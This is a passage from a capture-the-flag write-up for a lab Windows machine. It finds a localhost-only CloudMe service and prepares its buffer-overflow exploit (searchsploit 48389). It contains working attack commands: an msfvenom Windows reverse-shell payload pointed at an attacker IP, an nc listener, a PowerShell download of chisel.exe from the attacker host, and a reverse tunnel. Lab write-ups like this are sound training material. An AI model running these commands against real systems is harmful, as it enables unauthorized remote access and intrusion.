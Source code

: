 ```cmd
netstat -ano
```

Found that there was two ports listening on localhost. **8888** and **3306**. 3306 was mysql port. And we will find port 8888 wasn't open for our kali machine. 

```
  TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       5332
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       8804

```

#### Buffer overflow / 48389

To find if any exploitable binary information, we will use searchsploit.

```bash
searchsploit cloudme
```

![[Buff-12.png]]
very nice, we find this version `1.11.2` has a buffer overflow vulnerability could be used, so let's check this contents:

```bash
searchsploit -x 48389
searchsploit -m 48389
```

We check the content, and create the shell code and build up a listener 443 for final reverse shell:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```

```bash
nc -lvp 443
```

#### Port forwarding

Since CloudMe is running on localhost, I’ll have to tunnel traffic from my machine to the target since python is not install on buff. I’ll use Chisel for that.

##### Windows: Chisel

```bash
#  start a Chisel server on my attacker.
chisel server -p 8000 --reverse
# On the target machine.
powershell Invoke-WebRequest -Uri http://10.10.14.7/chisel.exe -OutFile chisel.exe
chisel.exe client 10.10.14.7:8000 R:8888:127.0.0.1:8888
```

![[Buff-13.png]]
